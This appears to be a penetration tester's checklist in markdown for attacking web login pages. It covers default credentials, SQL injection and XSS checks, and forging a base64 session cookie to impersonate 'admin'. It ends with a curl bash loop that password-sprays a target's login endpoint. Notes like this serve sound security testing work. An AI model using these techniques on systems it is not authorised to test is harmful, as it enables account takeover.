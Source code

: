 ```yaml
---
category: Uncategorized
tags: []
---
```

https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/

#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL`

#### Googling
- [ ] Google for Default Creds!!

#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]

- [ ] Inject into registration page, then login page
![[Pasted image 20220927104458.png | 750]]

![[Pasted image 20220927104516.png | 750]]

#### XSS
- [ ] Test for XSS.
[[7._XSS]]

#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.

Check cookies

![[Pasted image 20220105201411.png]]

`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`

```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```

![[Pasted image 20220105201601.png]]

```bash - kali
echo '{"username":"admin"}' | base64
```

`eyJ1c2VybmFtZSI6ImFkbWluIn0K`

![[Pasted image 20220105201823.png]]

#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
![[Pasted image 20220905125447.png]]
```
"role": "admin",
```

![[Pasted image 20220902153332.png]]

#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```
